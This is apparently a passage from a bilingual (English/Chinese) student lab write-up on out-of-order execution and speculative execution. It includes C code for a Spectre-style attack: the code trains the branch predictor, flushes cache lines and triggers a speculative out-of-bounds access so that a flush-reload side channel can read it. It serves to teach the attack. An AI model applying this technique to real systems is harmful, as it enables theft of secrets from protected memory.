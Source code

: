 ```c
/*cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
```

## 2. Task3: out-of-order execution and prediction

### 2.1. out-of-oder execution

```c
1. data = 0;
2. if (x < size) {
3.   data = data + 5;
4. }
```

if size=10, x = 15, line 3 will never be executed

but CPU will run this line because of out-of-order execution.

这是因为现代计算机中使用乱序执行优化技术，以最大化地利用执行单元。当所需资源（比如x，size）已就位，CPU会执行并行执行相关语句。在当前操作执行的时候，CPU已经超前执行了其他语句。

第二行包含了两个操作：从内存中加载size的值，比较x和size。如果size的值没有在CPU的cache中，访问速度会很慢。因此CPU会预测比较结果，然后根据预测运行分支。因为这些操作在比较结果还没出来之前就执行了，所以称为乱序执行。

当乱序执行的时候，CPU会存储当前的状态和寄存器的值。在size的值访问到了之后，CPU再检查真实的比较结果。如果预测是正确的，就继续执行，如果预测是错误的，就恢复状态，所有预测的操作都会丢弃。

这个技术显著提升了CPU的性能，但是也引入了风险。因为虽然预测错误会丢弃操作，但是寄存器读取到的预测分支相关内存已经存储到了cache中且没有被丢弃。利用测信道攻击可以窃取该内存内容（很有可能有secret）。

### 2.2. 实验代码

```c
int main(){
  int i;
  // FLUSH the probing array
  flushSideChannel();
  // Train the CPU to take the true branch inside victim()
  // 使用比size（10）小的i训练CPU预测true分支
  for (i = 0; i < 10; i++) {
    _mm_clflush(&size);
    victim(i);
  }
  // Exploit the out-of-order execution
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
    _mm_clflush(&array[i*4096 + DELTA]);
  // 使用比10大的97调用victim函数并刷新size的值，这样CPU要等待size的值，并且进入预测执行。
  victim(97);
  // RELOAD the probing array
  reloadSideChannel();
  return (0);
}
```
